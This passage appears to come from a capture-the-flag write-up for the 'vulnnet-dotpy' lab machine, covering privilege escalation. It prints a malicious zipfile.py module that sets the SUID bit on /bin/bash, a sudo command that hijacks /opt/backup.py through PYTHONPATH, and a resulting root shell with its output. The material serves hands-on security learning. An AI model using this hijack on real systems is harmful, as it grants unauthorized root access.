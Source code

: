 ```py
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

Armed with above information, we can escalate to root!

**To do so, we can add a `PYTHONPATH` environment variable to hijack `/opt/backup.py` python library!**

- Create a malicious module file named `zipfile`:

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ cat << EOF > zipfile.py
> import os
> os.system('chmod +s /bin/bash')
> EOF
```

> Note: The above `os.system()` is adding SUID sticky bit to `/bin/bash`.

- Run `/opt/backup.py`, which will load our malicious module:

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ sudo PYTHONPATH=/tmp/pip-j6gu500m-build /usr/bin/python3 /opt/backup.py
```

- Verify `/bin/bash` has SUID sticky bit or not:

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Apr  4  2018 /bin/bash
```

**Nice! Let's use `/bin/bash -p` to spawn a SUID privilege bash shell!**
```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
vulnnet-dotpy
uid=1000(system-adm) gid=1000(system-adm) euid=0(root) egid=0(root) groups=0(root),24(cdrom),1000(system-adm)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:75:2b:22:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.130.194/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2530sec preferred_lft 2530sec
    inet6 fe80::25:75ff:fe2b:22c9/64 scope link 
       valid_lft forever preferred_lft forever
```
